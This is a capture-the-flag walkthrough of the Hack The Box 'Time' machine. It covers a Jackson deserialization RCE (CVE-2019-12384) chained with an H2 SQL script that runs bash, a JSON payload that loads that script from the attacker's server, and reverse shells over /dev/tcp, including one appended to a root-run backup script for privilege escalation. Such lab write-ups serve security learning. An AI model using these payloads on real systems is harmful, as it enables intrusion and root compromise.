 ```yaml
---
layout: page
title: Time
description: Write-up
dropdown: HTB-BOXES
priority: 2
---
```

# Time Walkthrough
![](https://i.ibb.co/pP4vK3F/image.png)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Jackson RCE cve.
* Getting reverse shell.
* Enumerate Time.
* Getting reverse shell.
* RooTed.

## Nmap Scan:

**I just found 22 for ssh and 80 for http web page**


![](https://i.ibb.co/rGkP8zJ/image.png)

### Let's start with the Web Page:

**It's an online JSON beautifier and validator.**

![](https://i.ibb.co/GWKXZz3/image.png)

> * I tried to find SQLi, But while i was fired up my Burp suit i found that interesting error. 

![](https://i.ibb.co/H77fsKh/image.png)

> **I searched google about (unhandled java exception com.fasterxml.jackson.core.jsonparseexception), After 15 minutes of search i realized that is a JSON deserialization, And i found a CVE-2019-12384, It's Famous about Jackson Rce For CVE-2019-12384.**


> **This [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12384) allow attacker to get RCE, By FasterXML jackson-databind 2.x before 2.9.9.1 might allow attackers to have a variety of impacts by leveraging failure to block the logback-core class from polymorphic deserialization. Depending on the classpath content, remote code execution may be possible.**


##### Hackers logic if there is a CVE, Find its Exploit.

* I found this [Exploit](https://github.com/jas502n/CVE-2019-12384), But for some reason it didn't work with me.
* Then i found [This one](https://www.programmersought.com/article/77146841082/), I will use the RCE part with reverse shell.

> **In simple steps:**
1. Add inject.sql file to your machine.
2. Get ready your bash shell execution for the reverse shell [(CALL SHELLEXEC('bash -i &>/dev/tcp/YOUR_MACHINE_IP/YOUR_NC_LISTNER_PORT 0>&1 &'))].
3. Fired up your http server for port 8000 to upload inject.sql for our attacking box (Time).
4. Make your listner ready for the reverse shell.
5. Use the POC payload with YOUR_MACHINE_IP on port 8000 in Validate (Beta!).
6. BOOOM, you got reverse shell.

**inject.sql**
```ruby
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.16.11/1234 0>&1 &')
```
**Firing up our http server..**

![](https://i.ibb.co/synM0x0/image.png)

**Netcat as our listner ```yahia@Y4h1a:~$ nc -nlvp 1234 ```...**

**POC payload..**
```php
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.16.11:8000/inject.sql'"}]
```
**Here** 

![](https://i.ibb.co/nc1pGwZ/image.png)

**Looking to http server we found GET /inject.sql is 200 and that's OK.**

![](https://i.ibb.co/dtjG5BM/image.png)

**Our listner..**

![](https://i.ibb.co/XshCJMZ/image.png)

> * We got reverse shell successfully.

> * Now i'm Pericles user.

![](https://i.ibb.co/XjnTN1D/image.png)

> **I spent a day enumerating this box and i lost alot of Time as its name, But no thing useful So i decided the next day to use LinPEAS, it's a Tool to automate the enumeration process.**


![](https://i.ibb.co/fpZ92df/image.png)


![](https://i.ibb.co/hfJzCL3/image.png)

**I found that intersting file to check ``` /usr/bin/timer_backup.sh ```**

```bash
pericles@time:/usr/bin$ cat timer_backup.sh
cat timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```
> **It's create a zip archive from /var/www/html and moving it to /root/backup.zip**

> **So we have two ways to solve this situation, First add our public key to the authorized keys for root in Time Box and connect via ssh, but NO TIME so i choosed the second choice by getting reverse shell via bash shell ```echo "bash -i >& /dev/tcp/YOUR_MACHINE_IP/YOUR_NC_LISTNER_PORT 0>&1" >>/usr/bin/timer_backup.sh.**

```bash
pericles@time:/usr/bin$ echo "bash -i >& /dev/tcp/10.10.16.11/4321 0>&1" >>/usr/bin/timer_backup.sh
<p/10.10.16.11/4321 0>&1" >>/usr/bin/timer_backup.sh
```
**Till Now it's OK and you will get reverse shell to your listner, But for ONLY 5 seconds i think and that is the idea of TIME box, So you have to be very fast to cat your root flag ```cat /root/root.txt``` as always to find the root flag, So the first solution of adding our public key to the authorized keys for root is the best, Because it's will give us persistence to get access to root for TIME box.**

```bash
yahia@Y4h1a:~$ nc -nlvp 4321
Listening on 0.0.0.0 4321
Connection received on 10.10.10.214 45098
bash: cannot set terminal process group (228025): Inappropriate ioctl for device
bash: no job control in this shell
root@time:/# cat /root/root.txt
cat /root/root.txt
7a6040***********b14a463fcd5
```
# RooTed

<script src="https://www.hackthebox.eu/badge/209461"></script>




![]()
![]()
